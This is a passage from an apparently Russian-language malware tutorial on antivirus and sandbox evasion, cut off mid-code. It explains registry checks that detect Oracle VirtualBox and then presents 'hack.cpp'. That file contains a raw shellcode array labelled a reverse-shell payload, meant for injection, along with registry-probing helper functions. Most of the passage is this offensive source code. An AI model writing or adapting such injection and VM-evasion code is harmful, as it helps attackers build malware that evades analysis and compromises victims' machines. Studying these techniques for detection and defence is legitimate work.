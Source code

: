 Логика работы этой функции также довольно проста. Мы проверяем значение ключа реестра через `RegQueryValueExA`, в которой первым параметром является результат функции `RegOpenKeyExA`.    

Я буду рассматривать только `Oracle VirtualBox`. Для других VM/песочниц приемы аналогичны.    

### практический пример   

Итак, перейдем к рассмотрению практического примера. Давайте посмотрим на полный исходный код:    

```cpp
/*
* hack.cpp
* classic payload injection with 
VM virtualbox evasion tricks
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2022/04/09/malware-av-evasion-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int reg_key_ex(HKEY hKeyRoot, char* lpSubKey) {
  HKEY hKey = nullptr;
  LONG ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, 
  KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegCloseKey(hKey);
    return TRUE;
  }
  return FALSE;
}

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
```